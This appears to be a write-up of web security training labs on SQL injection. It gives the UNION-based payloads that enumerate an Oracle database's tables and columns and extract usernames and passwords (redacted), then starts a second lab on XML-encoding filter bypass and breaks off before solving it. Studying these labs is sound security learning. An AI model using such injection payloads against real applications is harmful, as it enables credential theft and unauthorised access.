 ### SQL injection attack, listing the database contents on Oracle

>This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.
>
>The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.
>
>To solve the lab, log in as the administrator user.

Same approach as the previous lab but against an Oracle DB.

A couple of things to note: the SQL query is differnt for Oracle and the `FROM` clause must reference `dual` Table.

`' UNION SELECT owner,table_name FROM all_tables--`

output summary (searching for 'users'):

```
PETER
USERS_IYWPQM
XDB
APP_USERS_AND_ROLES
```

`' UNION SELECT COLUMN_NAME,NULL FROM all_tab_columns WHERE table_name = 'USERS_IYWPQM'--`


```
PASSWORD_AQFTLW
USERNAME_HLXUTO
```

`' UNION SELECT USERNAME_HLXUTO,PASSWORD_AQFTLW FROM USERS_IYWPQM--`

list of usernames and passwords:

```
administrator
REDACTED
carlos
REDACTED
wiener
REDACTED
```

### SQL injection with filter bypass via XML encoding

>This lab contains a SQL injection vulnerability in its stock check feature. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables.
>
>The database contains a users table, which contains the usernames and passwords of registered users. To solve the lab, perform a SQL injection attack to retrieve the admin user's credentials, then log in to their account.
